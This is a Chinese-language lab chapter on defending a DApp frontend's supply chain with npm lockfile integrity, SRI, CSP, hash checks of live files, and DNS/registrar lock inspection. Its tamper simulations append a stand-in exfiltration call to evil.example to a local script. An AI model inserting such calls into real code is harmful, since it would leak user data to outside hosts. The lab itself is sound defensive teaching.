

# B62 前端供应链：依赖、构建、发布与 DNS

> 学习目标：做完本章，你能——
> 1. 用 lockfile 的 `integrity` 字段和 `npm ci` 挡住"同版本号换内容"的依赖投毒，并说出它挡不住什么。
> 2. 用 `grep` 扫出页面里没有 `integrity` 的外部脚本，以及 CI 里的松散安装和长期凭证。
> 3. 在本机浏览器里亲眼看到 SRI 拦下被改的外部脚本、CSP 拦下内联脚本和外传请求。
> 4. 写一个线上文件与发布清单的哈希比对脚本，并用 `dig`、`whois` 核对一个域名的 DNSSEC 和锁定状态。
> 5. 为一个示例团队填写 T06 第 3 部分"前端与发布"，给出状态和证据。
>
> 前置知识：完成阶段 0–1（[阶段 1 导读](B07-stage1-guide.md)），建议先完成链下赛道 L1（[L1 导读](B56-offchain-l1-guide.md)）；会用终端的 `cd`、`ls`；装好 Node.js、npm、git、openssl。
> 预计用时：2–3 小时。
> 交互实验：[多签签前复核](../interactive/multisig-review-lab.html)（第 6 步，可选）
> 关联章节：[20 前端、DNS 与供应链](../chapters/20-frontend-dns-supply-chain.md)｜[T06 运营安全自查](../templates/T06-ops-security-self-check.md)｜[A06 运营与密钥安全](../assessment/A06-operational-key-security.md)｜[A09 应急响应](../assessment/A09-incident-response.md)｜[B40 Safe](B40-case-safe.md)｜[B59 社工与内部人](B59-social-engineering-practice.md)
> 最后核对：2026-11-10（node v26.12.1、npm 11.20.0、git 2.54.0、OpenSSL 3.0.13、dig、whois、curl 均在本机运行过；浏览器结果来自本机 Chromium 内核浏览器的控制台；下文输出来自真实运行）

> ⚠️ 警告：法律与道德边界。本章的"恶意"包和"被篡改"的文件都是你在空目录里自己造的，服务器只监听 `127.0.0.1`。`dig` 和 `whois` 只读取公开记录。不要扫描、探测或修改别人的域名、CDN 和代码仓库。对自己公司的系统做检查，也要先取得负责人的书面同意。

---

## 开场：同一个版本号，不同的内容

你的团队 NoteDAO（示例）做了一个 DApp 前端。它依赖一个钱包连接库 `wallet-kit@1.0.0`。某天早上，这个库的维护者账号被钓鱼了。攻击者发布了带 Drainer 的新文件。

这不是虚构的套路。2023 年 12 月，Ledger Connect Kit 的前员工 npm 账号被利用，恶意版本通过 CDN 直接进入了很多 DApp 的页面（原理与来源见 [20 章 §5.3](../chapters/20-frontend-dns-supply-chain.md)）。

<details class="predict"><summary>🤔 先猜再看：你的 package.json 写的是固定版本 "1.0.0"，没有 ^ 或 ~。攻击者把 1.0.0 的文件内容换掉，你下次构建会装进恶意代码吗？</summary>

取决于你有没有提交 lockfile，以及 CI 怎么安装。版本号只是一个名字。lockfile 里的 `integrity` 是内容的哈希。`npm ci` 会校验这个哈希，内容变了就报错。第 1 步你会亲手看到 `EINTEGRITY`。

（公共 npm 仓库不允许覆盖已发布的版本号，攻击者通常发布新版本号。本章用本地 tarball 模拟"内容被换"，因为它更容易在本机复现。）

</details>

> 🎯 打个比方：lockfile 像快递单上的封签编号。收货人只核对"是不是 1.0.0 号包裹"，被调包也发现不了。核对封签编号，换了箱子就对不上。
>
> 比喻的局限：封签只证明"和你第一次收到的一样"。如果第一次收到的就是坏的，封签会忠实地保护坏东西。

## 1. 本章怎么练

原理全部在 [20 章](../chapters/20-frontend-dns-supply-chain.md)。本章只做练习。每一步对应发布链路上的一个环节。第 1–2 步练构建之前的环节；第 3–6 步练构建之后的环节：托管、CDN、DNS 和签名。



读图要点：每条箭头上写的是本章在那个环节做的检查。数据从左往右流，任何一个环节被攻破，用户浏览器里都会运行攻击者的代码。局限：图里没有画开发者电脑。开发者电脑失陷的练习在 [B59](B59-social-engineering-practice.md)。

| 步骤 | 你做什么 | 原理 | 检查项 |
|---|---|---|---|
| 第 1 步 | 让 `npm ci` 拒绝被换的包 | [20 §4.2](../chapters/20-frontend-dns-supply-chain.md) | FE-1、FE-2 |
| 第 2 步 | 用 `grep` 找出动态加载和松散安装 | [20 §4.2](../chapters/20-frontend-dns-supply-chain.md) | FE-3、FE-4 |
| 第 3 步 | 在浏览器里验证 SRI 和 CSP | [20 §4.3](../chapters/20-frontend-dns-supply-chain.md) | FE-5、FE-6 |
| 第 4 步 | 比对线上文件与发布清单 | [20 §3.3](../chapters/20-frontend-dns-supply-chain.md) | FE-7 |
| 第 5 步 | 读 NS、DS、RRSIG 和域名状态 | [20 §4.1](../chapters/20-frontend-dns-supply-chain.md) | FE-8、FE-9 |
| 第 6 步 | 签名人走一条不经过前端的路径 | [20 §4.4](../chapters/20-frontend-dns-supply-chain.md) | FE-10 |

## 2. 第 1 步：lockfile 能挡住什么

1. 新建一个练习目录，造一个本地"钱包连接库"并打包：

```bash
mkdir fe-lab && cd fe-lab                      # 练习目录，用完可以整个删掉
mkdir -p vendor/wallet-kit && cd vendor/wallet-kit
printf '{ "name": "wallet-kit", "version": "1.0.0", "main": "index.js" }\n' > package.json
echo 'module.exports = { connect: () => "connect-v1" };' > index.js
npm pack --silent                               # 生成 wallet-kit-1.0.0.tgz
cd ../..
```

2. 初始化项目并安装这个包。`--no-audit --no-fund` 让 npm 不联网查询：

```bash
npm init -y >/dev/null
npm install --no-audit --no-fund ./vendor/wallet-kit/wallet-kit-1.0.0.tgz
grep -A3 '"node_modules/wallet-kit"' package-lock.json   # 看 lockfile 记了什么
```

预期输出：

```text
added 1 package in 376ms
    "node_modules/wallet-kit": {
      "version": "1.0.0",
      "resolved": "file:vendor/wallet-kit/wallet-kit-1.0.0.tgz",
      "integrity": "sha512-ei5w+ctuQKTSNJJ27a1uwkW6nZe1wQHyjFD/bZLwJAdTK6dxZOMbZj9SHL13VQLYpgl11+b9vTbIPdxUDdaBtg=="
```

`integrity` 是 tarball 的 SHA-512 哈希，用 Base64 表示。`npm pack` 固定了文件时间，所以你算出的值应当和上面一样。

3. 把 lockfile 提交进 git。这是"审查过的版本"：

```bash
git init -q
printf 'node_modules/\n.cache*/\n' > .gitignore
git add . && git -c user.name=lab -c user.email=lab@example.invalid commit -qm "lock wallet-kit 1.0.0"
git log --oneline
```

```text
e343648 lock wallet-kit 1.0.0
```

你的提交哈希会不同。

4. 扮演攻击者：版本号不变，内容换掉。

```bash
cd vendor/wallet-kit
echo 'module.exports = { connect: () => "connect-v1" }; /* drainer */' > index.js
npm pack --silent
cd ../..
```

5. 像 CI 一样用 `npm ci` 安装。`--cache` 指向一个空目录，模拟一台全新的构建机：

```bash
npm ci --no-audit --no-fund --cache ./.cache-empty
```

预期输出（路径已缩短）：

```text
npm warn tarball tarball data for wallet-kit@file:…/wallet-kit-1.0.0.tgz (sha512-ei5w…Btg==) seems to be corrupted. Trying again.
npm error code EINTEGRITY
npm error sha512-ei5w…Btg== integrity checksum failed when using sha512: wanted sha512-ei5w…Btg== but got sha512-PJbkm/cweQCtQdy0OWHN583wRvd2yVD8uaUhhv+q61Tft+VAHmGvR/PHLx1ObF3fkBTXhC0ckvpOYLMy9rwHGg==. (499 bytes)
```

构建失败了。这是你想要的结果：坏包没有进入产物。

<details class="predict"><summary>🤔 先猜再看：有人觉得报错烦，删掉 package-lock.json 再运行 npm install。会发生什么？</summary>

npm 会接受新内容，并写一个新的 `integrity`。不报错，也不警告。唯一的痕迹是 lockfile 的 diff。下面亲手看。

</details>

6. 删掉 lockfile，重新安装，再看 diff：

```bash
rm package-lock.json
npm install --no-audit --no-fund --cache ./.cache-b >/dev/null 2>&1
git diff package-lock.json | grep '^[-+] '
```

```text
-      "integrity": "sha512-ei5w+ctuQKTSNJJ27a1uwkW6nZe1wQHyjFD/bZLwJAdTK6dxZOMbZj9SHL13VQLYpgl11+b9vTbIPdxUDdaBtg=="
+      "integrity": "sha512-PJbkm/cweQCtQdy0OWHN583wRvd2yVD8uaUhhv+q61Tft+VAHmGvR/PHLx1ObF3fkBTXhC0ckvpOYLMy9rwHGg=="
```

> 💡 注意：版本号没变，`integrity` 变了。代码评审时，看到这种 diff 必须追问原因。lockfile 的 diff 不是噪音，它是供应链的审计日志。

> 💡 注意：第 1 次做实验时，如果不加 `--cache` 空目录，npm 可能从本机缓存取出旧内容，看起来"一切正常"。这说明本机缓存会掩盖问题，CI 要用干净环境验证。

## 3. 第 2 步：扫出动态加载和松散安装

lockfile 只管 `npm install` 进来的包。页面里直接写的 `<script src="https://…">` 完全绕过它。

1. 在练习目录里造一个有问题的页面和 CI 配置（示例）：

```bash
mkdir -p src .github/workflows
cat > src/index.html <<'EOF'
<script src="https://cdn.jsdelivr.net/npm/wallet-kit@latest/dist/kit.js"></script>
<script src="https://unpkg.com/chart-lib@4"></script>
<script src="/assets/app.3f9a1c.js"></script>
EOF
cat > .github/workflows/deploy.yml <<'EOF'
steps:
  - run: npm install
  - run: npm run build
  - run: aws s3 sync dist/ s3://example-frontend --delete
    env:
      AWS_ACCESS_KEY_ID: ${{ secrets.AWS_KEY }}
EOF
```

2. 扫描外部脚本中没有 `integrity` 的：

```bash
grep -rnE '<script[^>]+src="https?://' src/ | grep -v integrity
```

```text
src/index.html:1:<script src="https://cdn.jsdelivr.net/npm/wallet-kit@latest/dist/kit.js"></script>
src/index.html:2:<script src="https://unpkg.com/chart-lib@4"></script>
```

3. 扫描 CI 里的松散安装和长期凭证：

```bash
grep -rnE 'npm (install|i)( |$)' .github/workflows/
grep -rn 'AWS_ACCESS_KEY_ID' .github/workflows/
```

```text
.github/workflows/deploy.yml:2:  - run: npm install
.github/workflows/deploy.yml:6:      AWS_ACCESS_KEY_ID: ${{ secrets.AWS_KEY }}
```

把 4 个命中写进笔记，每个配一句影响：

| 命中 | 影响 | 检查项 |
|---|---|---|
| `wallet-kit@latest` | 上游发布任何新版本，都直接进入用户浏览器，不经过你的构建 | FE-3 |
| `chart-lib@4` | 范围版本，同样会跟随上游变化 | FE-3 |
| `npm install` | 不严格按 lockfile 安装 | FE-2 |
| 长期 AWS Key | 泄露后可以替换 S3 上的文件，Bybit 事件的托管环节就是这样被改的（[20 §5.4](../chapters/20-frontend-dns-supply-chain.md)） | FE-4 |

> 💡 注意：`grep` 只是第一遍筛查。真实项目还会在 JS 里动态创建 `<script>`。浏览器的"网络"面板能列出页面实际加载的全部资源。

## 4. 第 3 步：在浏览器里看 SRI 和 CSP 生效

第 1–2 步用 lockfile 和 `grep` 守住了构建之前的环节。构建产物离开 CI 后，还要经过托管、CDN 和 DNS，才到达用户浏览器。Bybit 事件中，被改的是托管环节的文件；2025 年 Curve 事件中，被改的是 NS 委派（[20 §5.4、§5.1](../chapters/20-frontend-dns-supply-chain.md)）。第 3–6 步在本机和公开记录上练习这几个环节，最后为 NoteDAO（示例）填写 T06 第 3 部分。

子资源完整性（SRI）：`<script>` 上的 `integrity` 属性。浏览器下载文件后算哈希，对不上就拒绝执行。
内容安全策略（CSP）：服务器发给浏览器的一个响应头，规定页面能从哪里加载脚本、能连接哪些地址。

1. 新建目录 `sri-lab`，放一个"第三方 CDN 脚本"，算出它的 SHA-384：

```bash
mkdir -p sri-lab/site sri-lab/cdn && cd sri-lab
echo 'window.kitVersion = "kit 1.0.0";' > cdn/kit.js
openssl dgst -sha384 -binary cdn/kit.js | openssl base64 -A; echo
```

```text
Hh1I6UQTQ5oSb9rXDBybbU/DS73RvPr1VnyF+LDKf2BnOcdEW03PhYuAATLlgzM+
```

2. 写页面 `site/index.html`。它加载 CDN 脚本（带 SRI）、自己的 `app.js`，还有一段内联脚本：

```html
<!doctype html>
<meta charset="utf-8">
<title>SRI lab</title>
<p id="out">waiting</p>
<script src="http://127.0.0.1:18081/kit.js"
  integrity="sha384-Hh1I6UQTQ5oSb9rXDBybbU/DS73RvPr1VnyF+LDKf2BnOcdEW03PhYuAATLlgzM+"
  crossorigin="anonymous"></script>
<script src="/app.js"></script>
<script>document.title = "inline ran";</script>
```

3. 写 `site/app.js`：

```javascript
document.getElementById("out").textContent = window.kitVersion || "kit blocked";
```

4. 写 `serve.js`。它起两台本地服务器：18080 是你的站点（带 CSP），18081 模拟第三方 CDN：

```javascript
// 本地两台服务器：18080 = 你的站点，18081 = 模拟的第三方 CDN
const http = require("http"), fs = require("fs"), path = require("path");
const CSP = "default-src 'self'; script-src 'self' http://127.0.0.1:18081; " +
            "connect-src 'self'; object-src 'none'; base-uri 'none'; frame-ancestors 'none'";
function serve(dir, port, headers) {
  http.createServer((req, res) => {
    const f = path.join(__dirname, dir, req.url === "/" ? "index.html" : req.url);
    if (!f.startsWith(path.join(__dirname, dir)) || !fs.existsSync(f)) { res.writeHead(404); return res.end(); }
    const type = f.endsWith(".html") ? "text/html" : "text/javascript";
    res.writeHead(200, { "Content-Type": type, ...headers });
    res.end(fs.readFileSync(f));
  }).listen(port, "127.0.0.1");
}
serve("site", 18080, { "Content-Security-Policy": CSP });
serve("cdn", 18081, { "Access-Control-Allow-Origin": "*" });
console.log("site http://127.0.0.1:18080  cdn http://127.0.0.1:18081");
```

5. 在第二个终端运行 `node serve.js`。回到第一个终端，看响应头：

```bash
curl -sI http://127.0.0.1:18080/ | grep -i content-security
```

```text
Content-Security-Policy: default-src 'self'; script-src 'self' http://127.0.0.1:18081; connect-src 'self'; object-src 'none'; base-uri 'none'; frame-ancestors 'none'
```

6. 用浏览器打开 `http://127.0.0.1:18080/`，按 F12 打开控制台。观察：

- 页面显示 `kit 1.0.0`：SRI 校验通过。
- 标签页标题仍是 `SRI lab`：内联脚本没有运行。控制台有：

```text
Executing inline script violates the following Content Security Policy directive 'script-src 'self' http://127.0.0.1:18081'. … The action has been blocked.
```

7. 扮演 CDN 被入侵的攻击者，改掉 `cdn/kit.js`，然后刷新页面：

```bash
echo 'window.kitVersion = "kit 1.0.0"; /* attacker: hook window.ethereum */' > cdn/kit.js
```

页面变成 `kit blocked`。控制台有：

```text
Failed to find a valid digest in the 'integrity' attribute for resource 'http://127.0.0.1:18081/kit.js' with computed SHA-384 integrity '6LNnsWqQKCbmKyA42hq7tojKZo9CsvxoFkO+yUU6FxO1KqB5rSks3A1flnqpJMTP'. The resource has been blocked.
```

8. 再扮演一次攻击者：这次改你自己的 `app.js`，让它把数据外传。刷新页面：

```bash
echo 'fetch("https://evil.example/steal");' >> site/app.js
```

```text
Connecting to 'https://evil.example/steal' violates the following Content Security Policy directive: "connect-src 'self'". The action has been blocked.
```

<details class="predict"><summary>🤔 先猜再看：本步第 8 项里，被改的是你自己域名下的 app.js。SRI 没有拦它，CSP 拦下了外传。如果攻击者不外传，而是直接弹出一个 approve 请求，CSP 还能拦住吗？</summary>

拦不住。弹出钱包请求不需要连接外部地址，它调用的是页面里的 `window.ethereum`。CSP 和 SRI 只能缩小攻击面。你自己的文件被换掉时，要靠第 4 步的哈希比对发现，靠签名人独立解码兜底。

</details>

## 5. 第 4 步：线上文件与发布清单比对

原理见 [20 §4.3](../chapters/20-frontend-dns-supply-chain.md) 第 2 条。练习前先把 `site/app.js` 恢复成第 3 步的内容。

1. 发布时生成清单。真实环境里，这一步在 CI 里做，清单存到另一个系统：

```bash
(cd site && shasum -a 256 index.html app.js > ../release-manifest.txt)
cat release-manifest.txt
```

```text
71fe80f46b6818a28584834124e3a69b64365a433fb2af673248126bd44aa3e9  index.html
cf6e3c3e6a25315bd6ec5de0e3061c921fdfde534d785fbec90c70bd4b71f072  app.js
```

2. 写比对脚本 `check-live.sh`：

```bash
#!/usr/bin/env bash
# 逐个下载线上文件，和发布清单里的哈希比对
while read -r want file; do
  got=$(curl -s "http://127.0.0.1:18080/$file" | shasum -a 256 | cut -d' ' -f1)
  if [ "$got" = "$want" ]; then echo "OK      $file"; else echo "MISMATCH $file"; fi
done < release-manifest.txt
```

3. 运行一次，再篡改 `app.js` 后运行一次：

```bash
chmod +x check-live.sh && ./check-live.sh
echo 'fetch("https://evil.example/steal");' >> site/app.js
./check-live.sh
```

```text
OK      index.html
OK      app.js
OK      index.html
MISMATCH app.js
```

<details class="predict"><summary>🤔 先猜再看：Bybit 事件里，恶意脚本只对一个多签地址生效，约 2 分钟后又换回干净版本。你的比对脚本每小时从办公室跑一次，能发现吗？</summary>

大概率发现不了。文件被换的窗口很短，比对时刻落不进去。如果 CDN 只对部分用户改写，办公室拿到的也是干净文件。所以要提高比对频率、从多个位置比对、监控托管和 CDN 的配置变更，并保留每个版本的哈希和访问日志用于取证（[20 §3.3](../chapters/20-frontend-dns-supply-chain.md)）。

</details>

做完后在第二个终端按 `Ctrl+C` 关闭 `serve.js`。

## 6. 第 5 步：读一个域名的 DNS 和锁定状态

本步只读公开记录。用 `example.com`（IANA 保留的示例域名）练习。检查你自己公司的域名前，先取得负责人同意。

1. 看谁在回答这个域名（NS 委派）：

```bash
dig +short NS example.com
```

```text
hera.ns.cloudflare.com.
elliott.ns.cloudflare.com.
```

把这两行存下来。2025 年 Curve 事件中，攻击者改的正是 NS 委派（[20 §5.1](../chapters/20-frontend-dns-supply-chain.md)）。监控 NS 变化，就是把今天的输出和明天的输出比对。

2. 看 DNSSEC。DS 记录在上级域里，证明这个域名签了名：

```bash
dig +short DS example.com
dig @1.1.1.1 +dnssec example.com A | grep -E "flags:|RRSIG" | head -3
```

```text
2371 13 2 C988EC423E3880EB8DD8A46FE06CA230EE23F35B578D64E78B29C3E1 C83D245A
;; flags: qr rd ra ad; QUERY: 1, ANSWER: 3, AUTHORITY: 0, ADDITIONAL: 1
; EDNS: version: 0, flags: do; udp: 1232
example.com.		300	IN	RRSIG	A 13 2 300 20261111185249 20261109165249 34505 example.com. iWHW…yA==
```

`flags` 里的 `ad` 表示解析器验证签名成功。没有 DS 记录，就没有 DNSSEC。

3. 看 CAA 记录。CAA 规定哪些证书机构可以为这个域名签发证书：

```bash
dig +short CAA example.com
```

输出为空：这个域名没有 CAA 记录。在你自己的检查表里，这一项记为"未配置"。

4. 看域名状态码。`.com` 的注册局是 Verisign，`-h` 直接问注册局的 whois 服务器：

```bash
whois -h whois.verisign-grs.com example.com | grep -iE "^ *(registrar:|domain status|dnssec:)"
```

```text
   Registrar: RESERVED-Internet Assigned Numbers Authority
   Domain Status: clientDeleteProhibited https://icann.org/epp#clientDeleteProhibited
   Domain Status: clientTransferProhibited https://icann.org/epp#clientTransferProhibited
   Domain Status: clientUpdateProhibited https://icann.org/epp#clientUpdateProhibited
   DNSSEC: signedDelegation
```

`DNSSEC: signedDelegation` 和本步第 2 项的 DS 记录互相印证。

| 状态码前缀 | 谁设置 | 对应 20 章的说法 |
|---|---|---|
| `client…Prohibited` | 注册商 | 注册商锁（Registrar Lock） |
| `server…Prohibited` | 注册局 | 注册局锁（Registry Lock），解锁需要线下流程 |
| `ok` | 无锁 | 任何能登录注册商账号的人都能改 |

<details class="predict"><summary>🤔 先猜再看：一个域名同时有 DNSSEC 和 clientUpdateProhibited。攻击者攻破了注册商本身（不是你的账号），这两项还能保护你吗？</summary>

不一定。注册商能解除自己设置的 `client` 锁，也能改 DS 记录。这正是 Curve 两次事件的教训：注册商本身是风险。`server` 锁由注册局执行，解锁需要额外的线下核验，所以红线项要求两种锁都开（[20 §4.1](../chapters/20-frontend-dns-supply-chain.md)）。

</details>

## 7. 第 6 步：签名人的独立路径（可选）

> 🧪 动手验证：打开[多签签前复核](../interactive/multisig-review-lab.html)，在 #43 点击"运行独立解码"。记录前端声称的 safeTxHash 与硬件钱包显示的哈希是否相同，再记录哪些字段被标红。这一步练的是：前端全部失守时，签名人还有一条路径。Safe 结构的完整练习在 [B40](B40-case-safe.md)。

## 8. 交付物

1. 第 1 步的 `EINTEGRITY` 输出，和 `git diff` 里被换的那一行。
2. 第 2 步的 4 个命中，每个配一句影响（第 2 步的表）。
3. 第 3 步控制台里的 3 条拦截，第 4 步的 `MISMATCH` 输出，第 5 步的 NS、DS 和状态码记录。
4. 为 NoteDAO（示例）填好的 T06 第 3 部分（见下）。
5. 对你负责的一个前端填完 §9 的 FE-1 至 FE-10。

### 为 NoteDAO 填 T06 第 3 部分

NoteDAO（示例）的情况如下。全部为本手册示例：

- 域名在一家注册商，开了注册商锁，没开注册局锁。注册商账号用短信验证码。
- 没有 DNS 监控。
- 前端用 `npm install` 构建；页面从 jsDelivr 加载 `wallet-kit@latest`。
- 没有 CSP。
- 没有线上哈希比对。
- CI 用一把 2 年没轮换的 AWS Key 发布到 S3。
- 只保留最近 3 个版本的构建产物，没有访问日志。

按 [T06](../templates/T06-ops-security-self-check.md) 的规则填写。其中 3.3 依赖锁定和 3.6 发布凭证，用的就是第 2 步的方法。参考答案如下，先自己填再对照：

| # | 检查项 | 状态 | 证据 / 理由 |
|---|---|---|---|
| 3.1 ★ | 域名保护 | ❌ | `whois` 只有 `client` 锁，无 `server` 锁；注册商账号用短信，不是硬件密钥 |
| 3.2 | DNS 监控 | ❌ | 无告警配置；无 NS 历史记录 |
| 3.3 | 依赖锁定 | ❌ | CI 用 `npm install`；页面动态加载 `@latest`（第 2 步 grep 输出） |
| 3.4 | 外部脚本 | ❌ | 外部脚本无 `integrity`；响应头无 `Content-Security-Policy` |
| 3.5 | 线上完整性 | ❌ | 无比对脚本或告警 |
| 3.6 | 发布凭证 | ❌ | 长期 AWS Key，2 年未轮换 |
| 3.7 | 版本留存 | ⚠️ | 有最近 3 个版本的产物，无哈希清单，无访问日志 |

结论：红线项 3.1 未通过，本季度"不通过"，30 天内整改。再按优先级写出前 3 个整改动作，例如：①注册商账号换硬件密钥并申请注册局锁；②CI 改 `npm ci`，去掉 `@latest`，外部脚本加 SRI；③发布凭证换成短期凭证，并上线哈希比对。

## 9. 检查清单

把下面的表抄进你的笔记，对你负责或常用的一个前端逐项填写。

| 编号 | 检查项 | 怎么验证 | 本章步骤 | 你的结果 |
|---|---|---|---|---|
| FE-1 | lockfile 已提交，且每个依赖都有 `integrity` | `grep -c integrity package-lock.json` 与依赖数对照 | 第 1 步 | |
| FE-2 | CI 用 `npm ci` 或同等严格模式，在干净环境构建 | 读 CI 配置 | 第 1、2 步 | |
| FE-3 | 页面不动态加载 `@latest` 或范围版本 | 第 2 步的 grep；浏览器网络面板 | 第 2 步 | |
| FE-4 | 发布凭证是短期凭证，有持有人清单 | 读 CI 配置和云账号凭证列表 | 第 2 步 | |
| FE-5 | 每个外部脚本有 SRI | grep；控制台无 SRI 报错 | 第 3 步 | |
| FE-6 | CSP 限制了 `script-src` 和 `connect-src`，不含 `'unsafe-inline'` | `curl -sI` 看响应头 | 第 3 步 | |
| FE-7 | 线上文件与发布清单自动比对，多位置、高频率，有告警 | 运行比对脚本；看告警记录 | 第 4 步 | |
| FE-8 | NS、DS 有基线记录和变更告警 | `dig` 输出存档；告警配置 | 第 5 步 | |
| FE-9 | 域名有 `client` 和 `server` 两类锁；注册商账号用硬件密钥 | `whois` 状态码；账号设置截图 | 第 5 步 | |
| FE-10 | 签名人有一条不经过前端的核对路径 | 一次独立解码记录 | 第 6 步 | |

检查结果写进报告时，定级参考 [20 章第 6 节](../chapters/20-frontend-dns-supply-chain.md) 的对照表，发现格式用 [T03](../templates/T03-finding-report.md)。前端被篡改后的处置步骤见 [A09](../assessment/A09-incident-response.md)。

> 🪞 反思：回到你自己的项目。如果今晚 CDN 上的一个 JS 文件被换了，第一个发现的是谁：你的比对脚本、你的用户，还是一条推特？从发现到下线前端，需要几个人点头？

## 10. 如果出错

| 现象 | 原因 | 处理 |
|---|---|---|
| 第 1 步篡改后 `npm ci` 仍然成功 | npm 从本机缓存取出了旧内容 | 加 `--cache ./.cache-empty`，用一个不存在的目录 |
| `integrity` 和本章不同 | `index.js` 或 `package.json` 多了空格或换行 | 用本章的 `printf` 和 `echo` 原样重做 |
| 浏览器显示 `kit blocked`，但你没改 CDN 文件 | 哈希算错，或漏了 `crossorigin="anonymous"` | 重新运行 `openssl dgst`，检查属性 |
| 控制台报 CORS 错误 | CDN 服务器没发 `Access-Control-Allow-Origin` | 确认 `serve.js` 的 18081 带了这个头 |
| `EADDRINUSE` | 18080 或 18081 被占用 | 关掉旧的 `serve.js`，或改端口并同步改页面 |
| `check-live.sh` 全部 MISMATCH | `serve.js` 没运行，`curl` 拿到空内容 | 先运行 `curl -sI http://127.0.0.1:18080/` |
| `whois` 只返回几行 IANA 信息，没有状态码 | 没有跟随转介到注册局 | 用 `-h` 指定注册局的 whois 服务器，如第 5 步 |
| `whois: command not found` | 系统没装 whois | 用注册局的 RDAP 网页查询同一个域名 |

## 11. 过关标准

- [ ] 第 1 步拿到 `EINTEGRITY`，并能从 `git diff` 里指出被换的那一行。
- [ ] 第 2 步的 grep 找出 4 个命中，每个写出一句影响。
- [ ] 第 3 步在控制台看到 3 条拦截：内联脚本、SRI 不匹配、`connect-src` 外传。
- [ ] 第 4 步的比对脚本输出 `MISMATCH app.js`。
- [ ] 第 5 步说清 `client…Prohibited` 和 `server…Prohibited` 的区别，并解释 `ad` 标志。
- [ ] 独立填完 NoteDAO 的 T06 第 3 部分，红线判断与参考答案一致。
- [ ] 对一个真实前端填完 FE-1 至 FE-10，每项都有证据或"未验证"的说明。

## 12. 思考题

1. 第 1 步里，lockfile 挡住了"同版本换内容"。如果攻击者发布的是一个新版本号 `1.0.1`，你的团队又刚好运行了 `npm update`，lockfile 还能保护你吗？你还需要什么流程？
2. 第 2 步的 grep 只扫了 `src/` 里写死的 `<script src>`。哪些加载方式它扫不到？你用什么补充？
3. 第 1 步的注意说：不加 `--cache` 空目录，npm 可能从本机缓存取出旧内容，看起来"一切正常"。这对 CI 的配置提出了什么要求？对应哪个检查项？
4. 第 3 步的 CSP 允许了 `http://127.0.0.1:18081` 整个来源。如果那个 CDN 上还托管着别人的脚本，这个策略有什么问题？SRI 能补上吗？
5. 你的比对脚本在第 4 步输出了 `MISMATCH`。按 [A09](../assessment/A09-incident-response.md) 的思路，接下来的前 3 个动作是什么？为什么"先保全证据"要排在"把文件换回去"之前？
6. 一个团队说："我们开了 DNSSEC，所以不怕 DNS 劫持。"结合第 5 步和 Curve 2025 事件，你怎么回应？

- 下一章：[B63 节点、RPC 与确认](B63-node-rpc-practice.md)
